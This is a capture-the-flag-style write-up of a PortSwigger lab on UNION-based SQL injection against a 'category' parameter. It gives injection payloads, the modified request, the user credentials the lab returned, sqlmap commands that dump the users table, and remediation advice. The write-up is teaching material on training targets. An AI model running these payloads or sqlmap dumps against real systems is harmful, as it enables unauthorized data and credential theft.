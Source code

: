 # SQL Injection UNION Attack to Retrieve Data from Other Tables (PortSwigger Lab)

### **Lab: SQL Injection UNION Attack to Retrieve Data from Other Tables**

#### **Lab URL**:

[https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

***

### **High-Level Summary of the Lab**

1. **Objective**: Exploit a _**UNION-based SQL Injection attack**_ to retrieve usernames and passwords from the `users` table and log in as the administrator.
2. **What Makes This Vulnerable?**:
   * The application does not properly sanitize user input in the `category` parameter, allowing SQL Injection.
   * The vulnerability enables attackers to manipulate SQL queries to extract data from different tables.
3. **Key Techniques**:
   * Identifying column count via UNION attack.
   * Extracting data using UNION SELECT statements.
4. **Key Learning**:
   * UNION attacks can reveal sensitive data if input fields are not properly validated.
   * SQL Injection testing requires manual verification before leveraging automation tools.

***

### **PortSwigger Solution Overview**

1. **Determine the Number of Columns**:
   *   Modify the category filter request to test for the number of columns:

       ```plaintext
       '+UNION+SELECT+'abc','def'--
       ```
   * Identify how many columns accept string values.
2. **Retrieve Data from Users Table**:
   *   Inject the following payload to extract usernames and passwords:

       ```plaintext
       '+UNION+SELECT+username,+password+FROM+users--
       ```
3. **Extract Admin Credentials**:
   * Locate administrator credentials from the output and log in to complete the lab.

***

### **Your Solution**

1. **Intercept the Request**:
   *   Identify the GET request:

       ```plaintext
       GET /filter?category=Clothing%2c+shoes+and+accessories
       ```
   * Modify the `category` parameter to inject a UNION-based SQL query.
2. **Craft the Payload**:
   *   Use the following injection:

       ```plaintext
       1' UNION SELECT username, password FROM users --
       ```
   *   The full request becomes:

       ```plaintext
       GET /filter?category=Clothing%2c+shoes+and+accessories1' UNION SELECT username, password FROM users -- HTTP/2
       ```
3. **Extract the Results**:
   *   Application responds with user credentials:

       ```html
       <tr><th>wiener</th><td>e0rhde6r01n2svvmpp42</td></tr>
       <tr><th>carlos</th><td>nd76dn00fy7xpm8m1ghe</td></tr>
       <tr><th>administrator</th><td>r08fng6gvgdcoxnsfsj5</td></tr>
       ```
4. **Log In as Administrator**:
   * Use the extracted credentials (`administrator:r08fng6gvgdcoxnsfsj5`) to complete the lab.

***

### **Automating with SQLmap**

#### **Step 1: Test for Vulnerability**

```bash
sqlmap 'https://<lab-url>/filter?category=Pets' --dbs
```

#### **Step 2: Identify Available Tables**

```bash
sqlmap 'https://<lab-url>/filter?category=Pets' -D public --tables --batch
```

#### **Step 3: Extract User Data**

```bash
sqlmap 'https://<lab-url>/filter?category=Pets' -D public -T users --dump --batch
```

Results:

```plaintext
administrator:lzr7vlf5vf8johylrz93
```

Log in with the credentials to complete the lab.

***

### **Why This Lab Demonstrates SQL Injection**

1. **User-Supplied Input Controls Query Execution**:
   * The `category` parameter is used in an SQL query without proper validation.
   * Injecting UNION SELECT statements allows attackers to retrieve unauthorized data.
2. **UNION-Based SQL Injection**:
   * The UNION operator is used to merge query results and extract data from different tables.
3. **Security Impact**:
   * Unauthorized access to sensitive data, leading to privilege escalation.
   * Demonstrates the risk of poorly validated user input in web applications.

***

### **Remediation Recommendations**

1.  **Use Parameterized Queries**:

    ```python
    cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))
    ```

    * Ensures user input is treated as data, preventing query manipulation.
2. **Implement Proper Input Validation**:
   * Reject unexpected input types and enforce strict validation rules.
3. **Minimize Database Exposure**:
   * Restrict access to sensitive tables.
   * Implement **least privilege** access control for database users.
4. **Enable Web Application Firewalls (WAFs)**:
   * Use tools like ModSecurity to detect and block SQL Injection attempts.
5. **Regular Security Audits**:
   * Perform code reviews and penetration tests to identify injection vulnerabilities before attackers do.

***

### **Further Reading and References**

* **OWASP SQL Injection Guide**: [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* **PortSwigger SQL Injection Academy**: [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
* **SQLmap Official Documentation**: [http://sqlmap.org](http://sqlmap.org/)
